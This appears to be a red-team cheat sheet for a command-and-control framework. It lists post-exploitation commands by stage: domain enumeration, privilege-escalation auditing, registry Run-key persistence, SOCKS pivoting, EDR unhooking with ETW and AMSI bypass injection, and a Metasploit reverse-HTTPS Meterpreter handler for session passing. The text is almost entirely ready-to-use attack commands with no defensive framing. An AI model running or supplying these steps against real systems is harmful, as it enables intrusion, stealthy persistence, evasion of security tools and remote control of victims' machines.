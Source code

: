 #### Situational Awareness - Domain
```
sharp-hound-3 -- -c all 
```
---

## Privilege Escalation
```
sharpup -t 120 -p C:\\Windows\\System32\\werfault.exe audit
```
---
## Persistence
```
sharpersist -- '-t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add'
```
---
## Pivoting

### Socks Proxy
```
interactive
use <session>
socks5 start
```
---
## Defense Evasion
To run this command need to install extension windows-bypass
### EDR Bypass
```
unhook-boof
```
### ETW Bypass
```
inject-etw-bypass <pid>
```

### AMSI Bypass
```
inject-amsi-bypass <pid>
```
---

## Session Passing
Session passing is using one payload to spawn another payload.
### Install Metasploit
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
### Setup Metasploit Handler
```
use exploit/multi/handler 
set payload windows/x64/meterpreter_reverse_https
set lhost <msf_ip>
set lport <msf_port>
```